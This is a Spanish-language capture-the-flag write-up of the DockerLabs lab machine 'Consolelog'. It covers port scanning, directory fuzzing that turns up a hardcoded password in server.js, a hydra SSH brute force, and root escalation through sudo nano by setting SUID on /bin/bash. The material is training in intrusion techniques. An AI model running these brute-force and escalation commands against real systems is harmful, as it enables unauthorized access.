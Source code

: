 # 🖥️ Writeup - Consolelog 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip consolelog.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh consolelog.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80,3000,5000 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 21:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.85 seconds
```

Vemos que los puertos `80` y `3000` tienen un servicio `HTTP`, y el puerto `5000` corresponde a un servicio `SSH`.

Accedemos al puerto `80` y encontramos una página muy simple, sin información relevante aparente.

# GOBUSTER

Realizamos `fuzzing` de directorios para localizar posibles rutas o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```
Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 234]
/backend              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
Progress: 1439447 / 1543899 (93.23%)
```

Nos llama la atención el directorio `/backend`, al que accedemos y encontramos varios archivos. En uno de ellos, `server.js`, identificamos lo que parece ser una contraseña:

```
app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
```

Si esta contraseña se estuviera reutilizando por algún usuario del sistema, podríamos ganar acceso.



# FUERZA BRUTA

Decidimos lanzar un ataque de `fuerza bruta` contra el puerto `5000` (`SSH`), empleando la contraseña encontrada junto con un diccionario de usuarios.

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000  -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-13 21:16:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:5000/
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Descubrimos que las credenciales coinciden con el usuario `lovely`.

Accedemos por `SSH` con este usuario.

```bash
ssh lovely@172.17.0.2 -p 5000
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for lovely on e5d28c7e1777:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on e5d28c7e1777:
    (ALL) NOPASSWD: /usr/bin/nano
```

Comprobamos que podemos ejecutar el binario `nano` con privilegios de `root`, lo cual podemos aprovechar para escalar privilegios.

```bash
sudo nano
```
Una vez dentro de la interfaz de `nano`, usamos la combinación `Ctrl + T` para ejecutar un comando.

```bash
chmod +s /bin/bash
```

Tras salir del editor, el binario `/bin/bash` queda con permisos `SUID`, por lo que la escalada resulta sencilla mediante el siguiente comando:

```bash 
/bin/bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Ya somos root!